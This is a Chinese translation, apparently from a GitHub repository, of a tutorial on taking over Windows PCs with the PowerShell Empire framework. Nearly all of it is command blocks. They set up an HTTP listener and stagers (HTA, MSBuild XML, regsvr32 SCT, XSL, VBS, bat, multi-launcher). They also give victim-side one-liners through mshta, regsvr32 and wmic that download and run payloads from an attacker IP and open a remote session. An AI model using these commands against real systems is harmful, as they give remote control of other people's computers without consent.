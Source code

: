 ## 多种方法使用PowerShell Empire渗透Windows PC

### **通过HTA渗透** [^1]

```bash
# 创建侦听器
listeners
uselistener http
set Host http://192.168.1.110
execute
```

```bash
# 创建一个漏洞利用程序
back
usestager windows/hta
set Listener http
set OutFile /root/1.hta
execute
```

`python -m SimpleHTTPServer 8080` [^2]

`mshta.exe http://192.168.1.110:8080/1.hta` [^3]

### **通过MSBuild.exe渗透** [^4]

```bash
usestager windows/launcher_xml
set Listener http
execute
```

```bash
# 将此文件(/tmp/launcher.xml)复制到受害者的PC（在Microsoft.NET \ Framework \ v4.0.30319 \中）并运行它
cd C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe launcher.xml
```

### **通过regsvr32渗透**

```bash
usestager windows/launcher_sct
set Listener http
execute
```

`regsvr32.exe/u /n /s /i:http://192.168.1.107:8080/launcher.sct scrobj.dll`

### **通过XSL渗透**

```bash
usestager windows/launcher_xsl
set Listener http
execute
```

`wmic process get brief /format:"http://192.168.1.107:8080/launcher.xsl"`

### **通过Visual Basic脚本渗透**

```bash
usestager windows/launcher_vbs
set Listener http
execute
```

### **利用bat文件**

```bash
usestager windows/launcher_bat
use Listener http
set OutFile /root/1.bat
execute
```

**Multi_launcher** [^5]

```bash
usestager multi/launcher
set Listener http
execute
# 在上述命令之后按Enter键，它将为您提供代码。复制此代码并将其粘贴到受害者的命令提示符中，然后按Enter键。只要您按Enter键，您就会激活一个会话
```

[原文](https://www.hackingarticles.in/multiple-ways-to-exploiting-windows-pc-using-powershell-empire/)

---

[^1]: 这种攻击有助于我们通过.hta利用Windows。当.hta文件通过mshta.exe运行时，它以.exe文件的形式执行，就像我们之前那样
[^2]: 使用以下命令启动python服务器，以共享我们的.hta文件
[^3]: 当python服务器启动并运行时，在受害者的命令提示符下键入以下命令下载并执行我们的恶意文件，此时便建立了一个会话
[^4]: 我们的下一个漏洞是通过MSBuild.exe，它将允许您使用XML文件进行远程会话
[^5]: 它可以再次用于各种平台，如Windows，Linux等


